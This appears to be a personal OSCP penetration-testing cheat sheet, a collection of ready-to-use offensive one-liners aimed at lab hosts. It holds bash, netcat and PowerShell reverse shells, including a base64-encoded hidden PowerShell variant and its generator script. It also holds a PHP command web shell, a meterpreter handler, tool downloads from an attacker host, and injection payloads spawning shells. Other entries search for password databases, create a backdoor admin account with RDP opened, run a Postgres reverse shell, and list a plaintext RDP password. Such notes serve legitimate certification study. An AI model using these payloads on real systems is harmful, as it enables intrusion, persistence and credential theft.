 - SSH connection to OSCP machines
```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```
- Bash One-Liners
```
	for ip in $(cat list.txt); do host $ip.megacorpone.com; done
```
- SecLists Project - collection of wordlists
- PHP command execution
```
<?php echo system($_GET['cmd']); ?>
```
- One liner reverse shell
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F4444%200%3E%261%22


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f

```

- powershell one liner reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.230',4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0}while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex '. { $data } 2>&' | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
![[rev.ps1]]

Base64 encoding for powershell
```
$MyBase6 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$client = New-Object System.Net.Sockets.TCPClient("192.168.45.",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' ))

$Bytes=[Convert]::FromBase64String($Text)
[System.Text.Encoding]::Unicode.GetString($Bytes)
```

msfconsole 

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"

```
find using powershell

Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C: -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

download powershell

```
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.45.204:9090/Seatbelt.exe -Outfile seat.exe
```

network scanning
for i in $(seq 1 254); do nc -zv -w 1 172.16.203.$i 445; done

xfreerdp /u:justin /p:_SuperS3cure1337#_ /v:192.168.203.202

curl -X POST http://192.168.174.134:13337/update -H "Content-Type: application/json" -H "X-Forwarded-For: localhost" --data '{"user":"clumsyadmin","url":"http://192.168.45.230:8000/mint"}'

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

```

php reverse shell

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php


```
import os
os.popen("id").read()
```

### Upgrade shell

python -c 'import pty; pty.spawn("/bin/sh")'
`   python3 -c 'import pty; pty.spawn("/bin/bash")'   ` #upgrade-shell


curl -X  post --data "code=os.system('nc -e /bin/bash 192.168.45.162 18000')" http://192.168.175.117:50000/verify

```
%0Anc%20192.168.118.3%204444%20-e%20%2Fbin%2Fb

ssh -R 80:0.0.0.0:80 web_svc@192.168.240.147
ssh -N -R 127.0.0.1:60002:127.0.0.1:60002 kali@192.168.xx.xxx

ssh kali@192.168.45.238 -R 1234(kali_port):localhost:5432(victim_port)

```

bash -i>&/dev/tcp/192.168.45.225/8083 0>&1

nmap -sV -p- -oN nmap-all-ports 192.168.250.62

nc -e /bin/bash 192.168.45.162 18000  #nc_shell

https://medium.com/@cybenfolland/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

john --wordlist=/usr/share/wordlists/rockyou.txt hash_teacher #mysql_hash_crack

https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php

file upload bypass extension

https://systemweakness.com/proving-grounds-practise-active-directory-box-access-79b1fe662f4d

https://shawnvoong.medium.com/how-to-pass-the-2023-oscp-pen-200-on-the-first-try-part-1-enumeration-a0b272a86cf7

Information Gathering

nmap -p- -sV -sC -v <IPADDRESS> — open

sudo nmap -p 53,67,68,69,111,123,161,162,137,138,139,514,1900,5353,500,445 -sU <IPADDRESS>

autorecon --nmap-append="min-rate=2000" --exclude-tags="top-100-udp-ports" --exclude-tags nikto --dirbuster.threads=40 --dirbuster.tool=gobuster -v 192.168.241.145 

wpscan — url [http://URL](http://URL)  
wpscan — url [http://URL](http://URL) — enumerate p — plugins-detection aggressive

user creation and rdp enable
net user /add jack Password@12345
net localgroup administrators jack /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

asp reverse shell

https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx

postgres reverse shell

COPY temp FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.238 8090 >/tmp/f';

sudo psql --host=127.0.0.1 -U postgres

\! /bin/sh
